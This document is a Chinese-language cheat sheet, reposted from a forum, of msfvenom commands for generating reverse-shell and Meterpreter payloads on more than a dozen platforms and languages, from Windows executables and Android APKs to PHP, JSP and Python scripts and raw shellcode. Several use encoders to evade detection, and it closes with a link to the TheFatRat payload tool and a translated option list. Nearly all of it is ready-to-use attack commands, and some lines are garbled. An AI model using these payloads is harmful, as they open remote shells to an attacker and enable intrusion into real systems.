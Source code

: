 # msfvenom常用生成payload命令

> 原文：[https://www.zhihuifly.com/t/topic/3631](https://www.zhihuifly.com/t/topic/3631)

# windows:

```
 msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe 
```

# mac:

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho 
```

# android: //需要签名

```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻 击机IP LPORT=攻击机端口 -f apk -o payload.apk 
```

# powershell:

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST= 攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1 
```

# linux:

```
 msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻 击机IP LPORT=攻击机端口 -f elf -o payload.elf 
```

# php:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php cat shell.php | pbcopy && echo ' shell.php && pbpaste >> shell.php 
```

# aspx:

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx 
```

# jsp:

```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻 击机端口 -f raw -o payload.jsp 
```

# war:

```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war 
```

# nodejs:

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js 
```

# python:

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 - f raw -o payload.py 
```

# perl:

```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl 
```

# ruby:

```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb 
```

# lua:

```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua 
```

# windows shellcode:

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST= 攻击机IP LPORT=攻击机端口 -f c 
```

# linux shellcode:

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻 击机IP LPORT=攻击机端口 -f c 
```

# mac shellcode:

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c 
```

补充说明

```
便捷化payload生成： 项目地址：https://github.com/Screetsec/TheFatRat root@John:~/Desktop# 

git clone [https://github.com/Screetsec/TheFatRat.git](https://github.com/Screetsec/TheFatRat.git) //设置时需要挂墙 `附录： 中文使用说明： Options: -p, --payload 使用指定的payload --payload-options 列出该payload参数 -l, --list [type] 列出所有的payloads -n, --nopsled 为payload指定一个 nopsled 长度 -f, --format 指定payload生成格式 --help-formats 查看所有支持格式 -e, --encoder 使用编码器 -a, --arch 指定payload构架 --platform 指定payload平台 --help-platforms 显示支持的平台 -s, --space 设定payload攻击荷载的最大长度 --encoder-space The maximum size of the encoded payload (defaults to the -s value) -b, --bad-chars 指定bad-chars 如: ‘\x00\xff’ -i, --iterations 指定编码次数 -c, --add-code 指定个win32 shellcode 文件 -x, --template 指定一个 executable 文件作为模板 -k, --keep payload自动分离并注入到新的进程 -o, --out 存放生成的payload -v, --var-name 指定自定义变量 --smallest Generate the smallest possible payload -h, --help 显示帮助文件 Micropoor` 
```
